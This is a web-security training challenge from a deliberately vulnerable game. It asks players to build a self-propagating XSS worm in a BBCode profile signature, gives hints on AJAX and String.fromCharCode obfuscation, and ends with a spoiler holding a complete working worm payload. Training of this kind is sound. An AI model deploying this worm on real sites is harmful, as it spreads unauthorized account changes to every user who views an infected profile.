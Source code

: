 # XSS/CSRF Challenge 5

----------------------

Hey friend,

I've got a challenge for you.

Using the same concept from challenge 3, craft an XSS exploit in the profile signature that behaves like a worm, updating the profile signature of anyone who views an infected profile to also have the same exploit code on their profile.

To do this, you'll need to escape out of the bbcode parser and get javascript execution, use javascript to get a copy of the exploit code, and craft some javascript (perhaps using ajax) to submit a request to the server to update the user's profile signature.

I have a phantomjs bot setup that will log in as my admin account and visit all user profiles in the game - to trigger it, just go to Trigger Admin Browser in the navigation. See if you can get the exploit on the admin's profile signature via this worm!

Thanks!

-Breakthenet Game Owner

----------------------

Stuck? 
----------------------
<details> 
  <summary>Click for hint 1</summary>
   You don't have jquery on the page, so you'll need to google how to do an ajax call with plain, vanilla javascript. You also need to gather the details about the call you need to do (get it from the Preferences / Profile Signature form page).
</details>

<details> 
  <summary>Click for hint 2</summary>
   To get a copy of the worm for the payload, have the code refer to itself!
   
   E.g. ```<img src='' id='bob' onLoad='document.getElementById("bob").getAttribute("onLoad")'>```
</details>

<details> 
  <summary>Click for hint 3</summary>
   You may find you need to use some characters in your payload that are difficult to escape properly (or just might be sanitized). To get around this, look at the javascript function String.fromCharCode.
</details>

<details> 
  <summary>Click for hint 4</summary>
   While constructing your payload, you may find this function useful:
   
   ```
String.prototype.toCharCode = function(){
    var str = this.split(''), len = str.length, work = new Array(len);
    for (var i = 0; i < len; ++i){
        work[i] = str[i].charCodeAt();
    }
    return work.join(',');
}
   ```
</details>

<details> 
  <summary>Click for hint 5</summary>
   If you run into trouble concatenating javascript strings with the plus symbol (+), try using the concat function instead!
   ```str1.concat(str2);```
</details>

<details> 
  <summary>Major Spoiler - one possible solution</summary>
   ```[img]http://www.nyan.cat/cats/original.gif" id='uniqueimgid' onLoad="var xmlhttp;if (window.XMLHttpRequest) xmlhttp=new XMLHttpRequest();else xmlhttp=new ActiveXObject('Microsoft.XMLHTTP');xmlhttp.open('POST', 'preferences.php?action=profilesig2', true);xmlhttp.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');xmlhttp.send('newprofilesig='.concat(String.fromCharCode(91,105,109,103,93,104,116,116,112,58,47,47,119,119,119,46,110,121,97,110,46,99,97,116,47,99,97,116,115,47,111,114,105,103,105,110,97,108,46,103,105,102,34,32,105,100,61,39,117,110,105,113,117,101,105,109,103,105,100,39,32,111,110,76,111,97,100,61,34)).concat(document.getElementById('uniqueimgid').getAttribute('onLoad')).concat(String.fromCharCode(91, 47, 105, 109, 103, 93)));[/img]```
</details>